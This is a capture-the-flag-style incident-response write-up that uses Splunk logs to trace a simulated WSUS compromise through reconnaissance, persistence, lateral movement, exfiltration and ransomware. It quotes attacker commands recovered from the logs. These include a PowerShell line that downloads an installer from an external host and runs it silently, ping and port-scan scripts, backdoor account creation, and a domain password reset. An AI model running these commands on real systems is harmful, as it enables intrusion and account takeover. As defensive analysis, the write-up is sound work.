Scenario:
On November 17, 2025, network monitoring detected unusual outbound traffic from a DMZ server (10.10.3.0/24) followed by signs of lateral movement toward the internal network (10.10.11.0/24). We suspect all of this started as an active exploit of CVE-2025-59287, a critical unauthenticated remote code execution vulnerability in Microsoft Windows Server Update Services. Hours later, ransomware began encrypting files across multiple endpoints. Investigators recovered a suspicious executable and collected logs from affected systems. Using Splunk and malware analysis techniques, piece together the full attack chain—from initial compromise to final impact.
Executive Summary:
This investigation traces a full ransomware intrusion that began with exploitation of a vulnerable Microsoft Windows Server Update Services server. The attacker obtained NT AUTHORITY\SYSTEM execution, installed Velociraptor as a command-and-control beacon, performed domain and network reconnaissance, established RDP persistence through a local backdoor account, and abused the trusted WSUS service to repeatedly retrieve and execute payloads.
The intrusion then progressed from the DMZ into the internal network and domain controller. The attacker changed a domain user’s password, pivoted to an internal workstation, exfiltrated 262 files over unencrypted HTTP, and deployed ransomware associated with LockBit behavior. The ransomware appended the .xlockxlock extension to encrypted files, although some encryption attempts failed because of access restrictions.
Q1:
Upon gaining initial access on WSUS-SERVER-01, what user account context were the attacker's commands executed under?
To begin the investigation, I searched for Sysmon Process Creation (Event ID 1) events on WSUS-SERVER-01 to identify the first commands executed by the attacker.
The following Splunk query was used:
index=* source=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational host="WSUS-SERVER-01" EventCode=1 Image!=*fire* Image!=*packet* Image!=*beat* CommandLine!=*splunk*
| table _time user host ParentImage Image CommandLine
| sort _time
This query returns all process creation events while filtering out known security tooling (such as Packetbeat and the Splunk Universal Forwarder) to reduce noise. I then reviewed the command-line arguments to identify the earliest suspicious activity.
At 2025-11-17 20:35:32, I observed the attacker executing the whoami command:

The whoami command is commonly one of the first commands executed after an attacker gains access to a system, as it quickly identifies the security context and privileges of the current session.
The process was executed under the following account:
NT AUTHORITY\SYSTEM
Q2:
The attacker succeeded in installing a tool to function as a C2 beacon. What is the name of the tool they repurposed for C2?
While reviewing the process creation events on WSUS-SERVER-01, I observed the attacker downloading an MSI installer from an external IP address using the following PowerShell command:
powershell (New-Object Net.WebClient).DownloadFile('http://x.x.x.x:7000/v2.msi', 'C:\Users\Public\v2.msi') ; Start-Process msiexec -ArgumentList '/i C:\Users\Public\v2.msi /qn /norestart' -Wait
One occurrence of this command was logged at:
2025-11-17 20:31:47
This command performs two actions:
- Downloads
v2.msitoC:\Users\Public\ - Launches
msiexec.exeto silently install the package (/qn= quiet mode,/norestart= do not reboot).
At this point, the important realization is that msiexec.exe is the Windows Installer service responsible for installing MSI packages. It extracts the application's files, creates directories, registers services, writes registry entries, and performs any installation actions defined by the MSI package.
Since the attacker installed the malicious tool through an MSI, any files created during the installation would be attributed to msiexec.exe. Therefore, the next step was to look for file creation events where msiexec.exe was the creating process.
index=* host="WSUS-SERVER-01" EventCode=11 Image=*msiexec*
| table _time Image TargetFilename User
| sort 0 _time
This returned the following file creation event:
2025-11-17 20:31:55
C:\Windows\system32\msiexec.exe
C:\Program Files\Velociraptor\Velociraptor.exe
NT AUTHORITY\SYSTEM

This event confirms that the MSI installer created Velociraptor.exe within C:\Program Files\Velociraptor, identifying Velociraptor as the application installed by the attacker.
Q3:
After checking their access level, the attacker executed another command to determine if WSUS-SERVER-01 was part of a domain. What is the full command that was executed?
Continuing the investigation, I followed the sequence of events after the attacker verified their privileges using the whoami command.
At 2025-11-17 20:37:00, I observed Velociraptor.exe spawning a PowerShell process that contained a Base64-encoded command.
2025-11-17 20:37:00
User: SYSTEM
Host: WSUS-SERVER-01
Parent Process:
C:\Program Files\Velociraptor\Velociraptor.exe
Process:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Command Line:
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Unrestricted -EncodedCommand RwBlAHQALQBDAG8AbQBwAHUAdABlAHIASQBuAGYAbwAgAHwAIABTAGUAbABlAGMAdAAtAE8AYgBqAGUAYwB0ACAARABvAG0AYQBpAG4ALAAgAEQAbwBtAGEAaQBuAE4AYQBtAGUALAAgAFcAbwByAGsAZwByAG8AdQBwAA==
The encoded command was decoded, revealing the following PowerShell command:
Get-ComputerInfo | Select-Object Domain, DomainName, Workgroup

This command queries the system's configuration and returns information about its domain membership, including:
- Domain – Indicates whether the system is joined to an Active Directory domain.
- DomainName – Displays the name of the joined domain.
- Workgroup – Displays the configured workgroup if the system is not domain-joined.
Determining whether a compromised host is joined to a domain is a common post-compromise reconnaissance step, as it helps an attacker understand the environment and identify opportunities for privilege escalation and lateral movement.
Q4:
The attacker performed a network scan to identify live hosts. The scan targeted two specific /24 subnets. Provide the two network IDs that were scanned, separated by a comma.
While reviewing the process creation activity, I identified multiple Base64-encoded commands. Decoding one of the commands executed at 2025-11-17 20:43:31 revealed the following PowerShell script:
10..11 | ForEach-Object { $S=$_; $Total=254; 1..$Total | ForEach-Object { $I=$_; $IP="10.10.$S."+$I; Write-Progress -Activity "Scanning Network" -Status "Checking IP $IP in Subnet 10.10.$S.x" -PercentComplete (($I/$Total)*100); if (Test-Connection -ComputerName $IP -Count 1 -Quiet -ErrorAction SilentlyContinue) { Write-Host "HOST FOUND: $IP" -ForegroundColor Green } } } >> 'C:\Users\Public\report02.txt'
The script begins by looping through the values:
10..11
These values are substituted into the third octet of the IP address, causing the script to scan the following address ranges:
10.10.10.1 – 10.10.10.254
10.10.11.1 – 10.10.11.254
For each IP address, the script executes:
Test-Connection -ComputerName $IP -Count 1 -Quiet
Test-Connection sends a single ICMP echo request (ping) to determine whether the host is reachable. If a response is received, the script prints:
HOST FOUND: <IP>
Finally, the output is appended to:
C:\Users\Public\report02.txt
using the append redirection operator (>>), allowing the attacker to maintain a list of all responsive hosts discovered during the scan.

From the script, it is clear that the attacker scanned the following two /24 networks:
10.10.10.0/24, 10.10.11.0/24
Q5:
The attacker's network scanning script looked for specific open ports to identify valid targets. Besides ports 88, 389, 445, and 3389, what other port number was the attacker scanning for?
For this question, I followed a similar approach by reviewing the process creation events for suspicious PowerShell activity. I identified an interesting event at 2025-11-17 21:57:58, which contained the following PowerShell script:
$Targets=@('10.10.11.37','10.10.11.61','10.10.11.146');$Ports=@(8530,3389,445,389,88);$Jobs=@();$Targets|ForEach-Object{$IP=$_;$Ports|ForEach-Object{$Port=$_;$Jobs+=Start-Job -ScriptBlock {param($IP,$Port)try{$Socket=New-Object System.Net.Sockets.TcpClient;$Connect=$Socket.BeginConnect($IP,$Port,$null,$null);$Wait=$Connect.AsyncWaitHandle.WaitOne(500,$false);if($Wait-and$Socket.Connected){Write-Host "${IP}:${Port} - Open" -ForegroundColor Cyan}}catch{}finally{if($Socket-ne$null){$Socket.Close()}}} -ArgumentList $IP,$Port}};$Jobs|Wait-Job|Receive-Job

The script defines a list of target systems and a collection of TCP ports to test for connectivity:
$Ports=@(8530,3389,445,389,88)
It then iterates through each target and attempts to establish a TCP connection to every port using the .NET System.Net.Sockets.TcpClient class. If a connection is successful, the script reports the port as open.
Since the question already provided ports 88, 389, 445, and 3389, the remaining port being scanned was:
8530
Port 8530 is the default HTTP port used by Windows Server Update Services (WSUS). Given that the attacker had already compromised a WSUS server, scanning for additional hosts with port 8530 open would allow them to identify other WSUS servers within the environment that could be targeted for further compromise or lateral movement.
Q6:
Unable to directly RDP into the private network, the attacker created a local account on the DMZ server for remote access. What is the name of this account?
For this question, I once again reviewed the process creation events and identified a Base64-encoded PowerShell command. After decoding it, the following script was revealed:
New-LocalUser -Name "guestuser" -Password (ConvertTo-SecureString "P@sswOrd456" -AsPlainText -Force) -AccountExpires (Get-Date).AddDays(7); Add-LocalGroupMember -Group "Remote Desktop Users" -Member "guestuser"
From the decoded command, it is clear that the attacker created a new local user account named guestuser with a temporary password and configured the account to expire after seven days.
Immediately afterward, the attacker executed:
Add-LocalGroupMember -Group "Remote Desktop Users" -Member "guestuser"
This command added the newly created account to the Remote Desktop Users local group, granting it permission to authenticate via Remote Desktop Protocol.
Q7:
After creating the backdoor account, the attacker connected to WSUS-SERVER-01 via RDP. What was the source IP address of this connection?
To answer this question, I searched for successful Remote Desktop (RDP) logon events on WSUS-SERVER-01. In Windows Security logs, Event ID 4624 represents a successful logon, and Logon Type 10 specifically indicates an interactive Remote Desktop (RemoteInteractive) session.
The following Splunk query was used:
index=* source=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational host="WSUS-SERVER-01" EventCode=4624 Logon_Type=10
| table _time host src user
| sort _time
This returned the following events:
| Time | Host | Source IP | User |
|---|---|---|---|
| 2025-11-17 22:44:36 | WSUS-SERVER-01 | 3.120.140.221 | guestuser |
| 2025-11-18 00:17:15 | WSUS-SERVER-01 | 3.120.140.221 | guestuser |
These events confirm that the newly created guestuser account was used to establish two successful RDP sessions to WSUS-SERVER-01.
Therefore, the source IP address of the attacker's RDP connection was:
3.120.140.221
This also correlates with the previous question, where the attacker created the guestuser account and added it to the Remote Desktop Users group, indicating the account was specifically created to facilitate remote interactive access via RDP.

Q8:
The attacker configured a legitimate service to repeatedly download and execute their payload, ensuring persistence. At what interval (in seconds) was the service configured to download and execute the payload?
For this question, I revisited the events surrounding the download of the v2.msi payload, as I had noticed earlier that the download command appeared multiple times. Upon further investigation, I found that the process responsible for executing the download was:
C:\Program Files\Update Services\Services\WsusService.exe
running under the NETWORK SERVICE account. Since WsusService.exe is a legitimate Windows Server Update Services (WSUS) service, seeing it spawn a command to download an MSI from an external IP address was a strong indicator that the service had been repurposed for persistence.

Reviewing the process creation events showed the download command executing multiple times. The first occurrence was observed at:
2025-11-17 20:37:17
and the next occurrence at:
2025-11-17 20:47:18
The elapsed time between the two executions is 10 minutes and 1 second (601 seconds). However, the expected answer was 600 seconds, indicating the additional second is simply due to logging granularity and event timestamps rather than the actual configured interval.
Therefore, the service was configured to download and execute the payload every:
600 seconds (10 minutes)
One additional observation worth noting is that the attacker chose to abuse an existing, trusted Windows service rather than creating a new one. This is a common persistence technique because legitimate services are less likely to attract attention than a newly installed service.
Q9:
The attacker downloaded and used a custom tool on WSUS-SERVER-01 to move laterally to the domain controller. What was the argument passed to this executable to successfully carry its action?
For this question, I continued reviewing the process creation events and identified an interesting execution of ping.exe, a custom tool that had been downloaded to the compromised host earlier in the attack.
The following process creation event was observed:
| Time | User | Host | Process | Command Line |
|---|---|---|---|---|
| 2025-11-17 22:06:28 | SYSTEM | WSUS-SERVER-01 | C:\Users\Public\ping.exe |
"C:\Users\Public\ping.exe" http://10.10.11.61:8530 |
From the command line, it is clear that the attacker executed the tool and supplied the following argument:
http://10.10.11.61:8530
Although the executable is named ping.exe, it is not the legitimate Windows ping.exe located in C:\Windows\System32. Instead, this is a custom attacker-supplied executable located in C:\Users\Public, indicating it was likely renamed to blend in with legitimate system utilities.
Based on the lab context, this tool was used by the attacker as part of the lateral movement from WSUS-SERVER-01 toward the domain controller. The question specifically asks for the argument passed to the executable, which is:
http://10.10.11.61:8530
This also reinforces the importance of validating an executable's path, not just its filename. A process named ping.exe may appear benign at first glance, but its location outside the standard Windows directories and its command-line arguments clearly indicate malicious activity.
Q10:
What was the timestamp when the first command was executed on the Domain Controller (DC01) by the attacker after lateral movement?
To answer this question, I pivoted to DC01 and reviewed the process creation events (Sysmon Event ID 1) to identify the first command executed after the attacker laterally moved to the domain controller. To reduce noise from legitimate monitoring software, I filtered out known security tooling such as Packetbeat and the Splunk Universal Forwarder.
The following Splunk query was used:
index=* host="DC01" source=XmlWinEventLog:Microsoft-Windows-Sysmon/Operational EventCode=1 Image!=*fire* Image!=*packet* Image!=*beat* CommandLine!=*splunk*
| table _time user host ParentImage Image CommandLine
| sort _time
Reviewing the resulting events, the earliest attacker command observed was whoami, which was executed at:
2025-11-17 22:29:08
Although whoami is a simple command, it is commonly one of the first commands an attacker executes after obtaining access to a system. It allows them to verify the security context of their session and determine the privileges available before performing additional actions.
Therefore, the timestamp of the first command executed on DC01 after lateral movement was:
2025-11-17 22:29:08
Q11:
The attacker used a native Windows command-line utility to change a domain user's password. What is the timestamp for this modification?
To answer this question, I continued reviewing the process creation events on DC01 and identified the execution of the native Windows utility net.exe. This utility can be used to administer both local and domain user accounts, including changing passwords.
The following process creation events were observed:
| Time | User | Parent Process | Process | Command Line |
|---|---|---|---|---|
| 2025-11-17 22:35:48 | SYSTEM | powershell.exe |
net.exe |
"C:\Windows\system32\net.exe" user dwalker Sph!nky_00 /domain |
| 2025-11-17 22:35:48 | SYSTEM | net.exe |
net1.exe |
C:\Windows\system32\net1 user dwalker Sph!nky_00 /domain |
| 2025-11-17 22:35:49 | SYSTEM | powershell.exe |
net.exe |
"C:\Windows\system32\net.exe" user dwalker Sph!nky_00 /domain |
| 2025-11-17 22:35:49 | SYSTEM | net.exe |
net1.exe |
C:\Windows\system32\net1 user dwalker Sph!nky_00 /domain |

The command executed was:
net user dwalker Sph!nky_00 /domain
This command changes the password of the Active Directory user dwalker to Sph!nky_00. The /domain switch instructs net.exe to perform the operation against the domain controller rather than the local system.
Although both net.exe and net1.exe appear in the logs, this is expected behavior. On modern Windows systems, net.exe internally invokes net1.exe to perform the requested operation, which is why both processes are recorded.
Therefore, the timestamp when the domain user's password was modified was:
2025-11-17 22:35:48
Q12:
Using the compromised domain account identified earlier, the attacker pivoted from the DMZ to the internal network. What is the timestamp of the first successful logon to WKSTN-01?
To answer this question, I searched for successful logon events on WKSTN-01 using Windows Security Event ID 4624, which records successful account logons.
The following Splunk query was used:
index=* host="WKSTN-01" EventCode=4624
| table _time host user src Logon_Type
| sort 0 _time
Reviewing the results, I identified the first successful logon involving the previously compromised domain account at:
2025-11-17 22:52

We got a successful logon into the WKSTN-01 host on: 2025-11-17 22:52 indicating that the attacker successfully pivoted inside the network.
This event confirms that the attacker successfully authenticated to WKSTN-01 using the compromised domain account, completing the pivot from the DMZ environment into the internal network.
Q13:
Analyze the network logs (index="suricata") for connections from DC01. How many files were successfully uploaded to the attacker's exfiltration server?
While reviewing process activity on DC01, I identified a Base64-encoded command that, once decoded, revealed the attacker-controlled exfiltration server:
18[.]193[.]76[.]209:4000

Using this information, I pivoted to the Suricata network logs and searched for HTTP PUT requests to the identified server:
index="suricata" dest_ip=18.193.76.209 dest_port=4000 http.http_method=put
| dedup http.url
The search filters for traffic sent to the attacker-controlled IP address over port 4000. The HTTP PUT method is significant because it is commonly used to upload data to a remote web server.
I then deduplicated the results by http.url, as each unique URL represented a separate file-upload destination. This prevented retransmissions or duplicate network events for the same file from being counted multiple times.
The search returned:
262

Therefore, the attacker successfully uploaded:
262 files
Q14:
What is the MITRE ATT&CK technique ID that best describes the exfiltration method used by the attacker?
The technique for this is:
T1048.003 - Exfiltration Over Unencrypted Non-C2 Protocol
The reason being the attacker uploaded files directly to an external server (18.193.76.209:4000), Used HTTP PUT requests, sent the data over an unencrypted HTTP connection rather than HTTPS, and used a dedicated exfiltration server rather than embedding the data within an existing command-and-control channel.
Q15:
In the final stage of the attack, a ransomware payload was deployed across the compromised machines. What file extension was the ransomware designed to append to encrypted files?
I actually identified this earlier while analyzing the Base64-encoded PowerShell commands executed on the initial compromised host.
One particularly interesting event occurred at 2025-11-18 00:36:10, where the decoded script exhibited clear ransomware behavior.

Within the script, the following command was observed:
ren $ifi -NewName $ifi".xlockxlock"
This command renames each encrypted file by appending the .xlockxlock extension to its original filename. For example:
report.docx → report.docx.xlockxlock
Appending a unique extension to encrypted files is a common ransomware technique, allowing the malware to easily identify which files have already been encrypted while also signaling to the victim that the files are no longer accessible.
Q16:
The file extension and techniques observed are associated with a known ransomware group. What is the name of this group?
A quick google search of the extension revealed the group to be:
lockbit
Q17:
The attacker deployed ransomware across compromised systems, but the encryption was not entirely successful. What is the name of the first file that the ransomware failed to encrypt on WKSTN-01?
For this final question, I first noted the timestamp when the ransomware PowerShell script was executed (2025-11-18 00:36:10). Since the question specifically stated that the encryption was not entirely successful, I pivoted to PowerShell Event ID 4100, which records PowerShell runtime errors.
Reviewing the events around the ransomware execution timeframe, I identified the earliest error generated by the ransomware process. The event indicated an "Access to the path is denied" error while attempting to encrypt the file:
auxbase.xml
This revealed that the ransomware was unable to encrypt the file due to insufficient access permissions, making it the first file that the ransomware failed to encrypt.
Therefore, the answer is:
auxbase.xml
Indicators of Compromise (IOC)
| IOC Type | Indicator | Description |
|---|---|---|
| Vulnerability | CVE-2025-59287 | Suspected initial-access vulnerability affecting Microsoft WSUS |
| Compromised Host | WSUS-SERVER-01 | Initial server compromised in the DMZ |
| Execution Context | NT AUTHORITY\SYSTEM | Security context used for the attacker’s initial commands |
| C2 Tool | Velociraptor | Legitimate DFIR tool repurposed as a command-and-control beacon |
| Malicious Installer | C:\Users\Public\v2.msi | MSI package downloaded and silently installed by the attacker |
| C2 Executable | C:\Program Files\Velociraptor\Velociraptor.exe | Installed Velociraptor executable |
| Backdoor Account | guestuser | Local account created and added to Remote Desktop Users |
| Backdoor Password | P@sswOrd456 | Password assigned to the temporary local backdoor account |
| Attacker RDP IP | 3.120.140.221 | Source IP used for successful RDP sessions to WSUS-SERVER-01 |
| Persistence Process | C:\Program Files\Update Services\Services\WsusService.exe | Legitimate WSUS service abused to repeatedly retrieve and execute the payload |
| Persistence Interval | 600 seconds | Configured payload download and execution interval |
| Custom Tool | C:\Users\Public\ping.exe | Attacker-supplied executable masquerading as the Windows ping utility |
| Lateral Movement Target | http://10.10.11.61:8530 | Argument supplied to the custom lateral-movement tool |
| Scanned Network | 10.10.10.0/24 | First /24 network scanned for live hosts |
| Scanned Network | 10.10.11.0/24 | Second /24 network scanned for live hosts |
| Scanned Port | 8530 | Default HTTP port for WSUS |
| Compromised Domain Account | dwalker | Domain user whose password was changed by the attacker |
| Changed Password | Sph!nky_00 | Password assigned to the compromised domain account |
| Exfiltration Server | 18.193.76.209:4000 | Attacker-controlled HTTP server receiving uploaded files |
| Exfiltration Method | HTTP PUT | Unencrypted HTTP method used to upload 262 files |
| MITRE ATT&CK | T1048.003 | Exfiltration Over Unencrypted Non-C2 Protocol |
| Ransomware Extension | .xlockxlock | Extension appended to encrypted files |
| Ransomware Association | LockBit | Ransomware group associated with the observed extension and behavior |
| Failed Encryption Target | auxbase.xml | First file the ransomware failed to encrypt on WKSTN-01 |